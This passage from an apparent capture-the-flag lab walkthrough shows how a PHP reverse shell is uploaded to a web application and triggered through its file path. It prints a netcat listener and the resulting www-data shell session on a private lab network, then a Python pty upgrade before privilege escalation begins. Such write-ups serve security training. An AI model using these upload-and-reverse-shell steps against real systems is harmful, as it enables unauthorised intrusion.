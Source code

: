 ![image-20231114193704173](/Users/v4ler1an/Library/Application Support/typora-user-images/image-20231114193704173.png)

Ok, let us login the website:

![image-20231114193829247](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311141938519.png)

And then, we can use exploit now.

### 3. Exploit the website

We upload a php reverse shell to website:

![image-20231114194413643](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311141944910.png)

We need to attention at the file ID:

![image-20231114194542518](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311141945800.png)

Because when we access the shell file, we need to know the id of it:

![image-20231114194932337](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311141949608.png)

After we upload the file twice, the ID changed to 5.

And then, we can access the shell through uri `/data/1048576/5/shell.php`, and listen on kali:

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ nc -lvp 1234
listening on [any] 1234 ...
172.16.86.150: inverse host lookup failed: Unknown host
connect to [172.16.86.138] from (UNKNOWN) [172.16.86.150] 55002
Linux ubuntu 5.8.0-59-generic #66~20.04.1-Ubuntu SMP Thu Jun 17 11:14:10 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 03:56:09 up 43 min,  0 users,  load average: 0.74, 0.22, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



## 4. Privilege Escalation

First, turn on the interactive shell with python:

```shell
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Look up users:
